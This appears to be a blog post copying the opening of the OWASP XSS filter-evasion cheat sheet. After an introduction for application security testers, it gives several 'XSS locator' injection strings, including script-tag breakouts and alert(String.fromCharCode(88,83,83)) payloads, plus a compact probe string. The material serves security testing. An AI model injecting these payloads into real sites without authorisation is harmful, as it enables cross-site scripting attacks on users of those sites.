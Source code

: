 ```yaml
---
layout: post
title: "XSSAttack"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

XSS Attack Sum up

-----
Original Article: http://codev587.net/xss-filter-evasion-cheat-sheet-no1.html

----
Introduction
----

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: http://ha.ckers.org/xss.html. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the XSS (Cross Site Scripting) Prevention Cheat Sheet, was inspired by RSnake’s XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the OWASP Cheat Sheet Series was born.
Tests

This cheat sheet is for people who already understand the basics of XSS attacks but want a deep understanding of the nuances regarding filter evasion.

Please note that most of these cross site scripting vectors have been tested in the browsers listed at the bottom of the scripts.

XSS Locator

Inject this string, and in most cases where a script is vulnerable with no special XSS vector requirements the word “XSS” will pop up. Use this URL encoding calculator to encode the entire string. Tip: if you’re in a rush and need to quickly check a page, often times injecting the depreciated “<PLAINTEXT>” tag will be enough to check to see if something is vulnerable to XSS by messing up the output appreciably:
1
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
	2
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
	3
	></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>


	XSS locator 2

	If you don’t have much space and know there is no vulnerable JavaScript on the page, this string is a nice compact XSS injection check. View source after injecting it and look for <XSS verses &lt;XSS to see if it is vulnerable:
	1
	'';!--"<XSS>=&{()}

